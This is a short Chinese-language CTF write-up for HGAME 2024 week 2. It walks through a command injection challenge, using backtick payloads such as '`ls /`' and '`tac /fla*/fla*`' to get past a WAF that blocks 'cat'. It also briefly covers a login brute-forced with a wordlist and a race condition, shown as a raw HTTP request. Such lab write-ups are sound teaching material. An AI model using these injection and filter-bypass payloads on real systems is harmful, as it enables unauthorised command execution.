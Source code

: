 # 2024 HGAME_week2


HGAME2024_week2_web&misc



# Week2

## web

### [What the cow say?]

除了反引号，`$()`也可以

```
`ls /`
```

![image-20240216143935578](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240216143935578.png)

直接用cat命令会被waf拦截

```
`tac /fla*/fla*`
```

![image-20240216144348881](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240216144348881.png)

### [Select More Courses]

登陆界面，使用top1000字典进行爆破

![image-20240216150542871](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240216150542871.png)

根据提示，应该是时间竞争

![image-20240216150649837](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240216150649837.png)

```http
POST /api/expand HTTP/1.1
Host: 139.196.183.57:30232
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: http://139.196.183.57:30232/expand
Content-Type: application/json
Content-Length: 23
Origin: http://139.196.183.57:30232
Connection: close
Cookie: session=MTcwODA2NzE4MXxEWDhFQVFMX2dBQUJFQUVRQUFBcV80QUFBUVp6ZEhKcGJtY01DZ0FJZFhObGNtNWhiV1VHYzNSeWFXNW5EQW9BQ0cxaE5XaHlNREJ0fIP0P43CugxLBJt9xdo6NEpISwrwf3-CXDctl9thdqyW

{"username":"ma5hr00m"}
```
